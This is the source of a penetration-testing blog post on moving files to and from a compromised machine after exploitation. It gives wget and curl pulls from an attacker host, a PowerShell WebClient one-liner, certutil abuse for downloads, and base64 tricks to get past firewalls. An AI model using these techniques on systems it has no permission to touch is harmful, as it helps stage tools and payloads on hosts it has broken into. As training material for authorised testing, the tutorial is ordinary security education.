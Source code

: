 ```yaml
---
title:  "File Transfer - Post Exploitation"
path: ""
type: posts
layout: single
author_profile: true
read_time: true
comments: true
share: true
related: true
future: true
toc: true
toc_sticky: true
toc_label: "Table of Contents"
toc_icon: "fas fa-book-open"
header:
    image: https://images.unsplash.com/photo-1512317049220-d3c6fcaf6681?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
    caption: "Photo by [**Ilya Pavlov**](https://unsplash.com/@ilyapavlov) on [**Unsplash**](https://unsplash.com/photos/a-close-up-of-a-computer-screen-with-a-menu-hXrPSgGFpqQ)"
    teaser: https://images.unsplash.com/photo-1512317049220-d3c6fcaf6681?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```


File transfer is an essential step after we have successfully exploited our target. To transfer files from our target machine to our own system or to upload enumeration scripts to the target, file transfer is inevitable.

# Python HTTP Server
The Python HTTP server is always a go-to method for file transfer.
1. Navigate to the specific directory which contains our file to transfer. Take note that whichever directory we ran the command from will become the root directory in the HTTP server.
2. Run the following command below.<br><br>
For python2:
```
python -m SimpleHTTPServer 9999
```
For python3:
```
python3 -m http.server 9999
```
3. On the remote host which we have code execution on:
```
$ wget http://10.133.133.33:8000/bobby.sh
```
IP 10.133.133.33 belongs to the host machine running the python server on port 8000.<br><br>
If the remote machine does not have `wget`, use `cURL`:
```
curl http://10.133.133.33:8000/bobby.sh -o bobby.sh
```
> -o flag specifies the output file name.<br><br>
`wget` and `cURL` are usually available in Linux machines.

# Apache
In the event when Python is not available in the machine where the source file is located, we can use Apache instead.
1. Move the file which we want to transfer to the `/var/www/html` directory:
```
mv bobby.sh /var/www/html/
```
2. Start the Apache2 service:
```
service apache2 start
```
3. From our target machine, if we have a graphical user interface (GUI), we can fetch our files by using the web browser and visiting:
```
10.133.133.33/bobby.sh
```
For Command Line Interface (CLI), simply use `wget` or `cURL` as discussed above.

# Windows File Transfer
On a Windows OS, the target machine might not have `wget` or `cURL` available. The methods below are suitable for target machines running in Windows.<br><br>
Note that HTTP server has already been set up at source file location. 
## Powershell
We can use a Powershell one-liner to download a file from our HTTP server:
```
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```
> Use single quotes for URL and output file.

## Certutil.exe
Certutil.exe is a command-line program that is installed as part of Certificate Services. It is used to display certification authority (CA) configuration information, configure Certificate Services and etc. 

However, it can be exploited for other purposes:
```
certutil -urlcache -split -f "http://ip-addr:port/file" [output-file]
```

# Evading Firewall Protections
There might be cases when we are unable to download a file from our host machine at the target due to firewall restrictions.

However, a simple trick is to base64 encode the file into `base64` format and pasting the base64 string on the remote server to decode it.

For example, to transfer a binary file `secret`, we can base64 encode it:
```
$ base64 secret -w 0
sdofeimomOIFFIEOFOAAAAAIAREQQABAAAA...
```
Next, we will copy this base64 string, go to our remote host and `base64 -d` to decode it while piping the output into a file:
```
$ echo sdofeimomOIFFIEOFOAAAAAIAREQQABAAAA... | base64 -d > secret
```

# File Validation
We can run the `file` command to validate the format of a file:
```
$ file secret
secret: ELF 32-bit LSB executable, x86-32, version 1 (SYSV), statically linked, no section header
```
To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run md5sum on it:
```
$ md5sum secret
3434oifoemco3r8834811adf23fcj0la secret
```
Next, we can go to the remote machine to run the same command on the file we have transferred:
```
$ md5sum secret
3434oifoemco3r8834811adf23fcj0la secret
```
With both files having the same md5 hash means that file transfer has been completed successfully.